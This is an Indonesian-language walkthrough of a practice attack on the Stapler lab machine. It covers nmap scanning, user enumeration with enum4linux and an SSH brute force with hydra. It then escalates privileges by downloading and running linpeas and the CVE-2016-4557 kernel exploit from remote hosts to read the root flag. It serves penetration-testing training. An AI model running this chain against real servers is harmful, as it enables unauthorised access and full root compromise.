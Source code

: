 # Laporan Serangan Server Stapler

Ini adalah hasil serangan yang telah dilakukan pada server Stapler untuk latihan serangan.

## Pencarian IP Address Server

- cek ip pc : `ip a` atau `ifconfig` 
- nmap: `nmap -sP <network_id>/<prefix>`
- uji koneksi, kali linux dan server Stapler: `ping <ip_server>`
- jika tidak bisa di ping maka lanjut ke scan port

## Scan Port Server dengan NMAP
- nmap : `nmap -sC -sV -A <ip_server>`

**Port** yang terbuka dari server adalah :
- ftp-data (20)
- ftp (21)
- ssh (22)
- domain (53)
- http (80)
- samba smbd (139)
- doom (666)
- mysql (3306)

## Access Domain (53)
- gunakan tool enum : `enum4linux <ip_server>`
- scroll kebawah temukan user dengan (local user)
- misal : **S-1-22-1-1000 Unix User\peter (Local User)**
- maka buat file : **username.txt**
- dan tuliskan list username :
```
peter
RNunemaker
ETollefson
...
...
...
www
elly
```

## Access SSH (22)
- terdapat data user, gunakan hydra
```
hydra -L username.txt -P username.txt ssh://<ip_server>
```
- user : `SHayslett`
- pass : `SHayslett`
- login ssh
```
ssh SHayslett@<ip_server>
```





## Privilege Escalation
- pada **SSH user SHayslett**
- temukan vulnerability untuk access root dengan linpeas
```
wget https://github.com/carlospolop/PEASS-ng/releases/download/20220731/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```
- dan tunggu (lumayan lama)
- scroll ke atas temukan **[CVE 2016 4557] double-fdput**

**Note:** untuk menggunakan CVE cari yang dari sumber **exploit-db** atau **offensive-security**
- jalankan exploit
```
wget https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/bin-sploits/39772.zip
unzip 39772.zip
cd 39772
tar -xvf exploit.tar
cd ehb_mapfd_doubleput_exploit
./compile.sh
./doubleputs
```
- temukan flag
```
cat /root/flag.txt
```
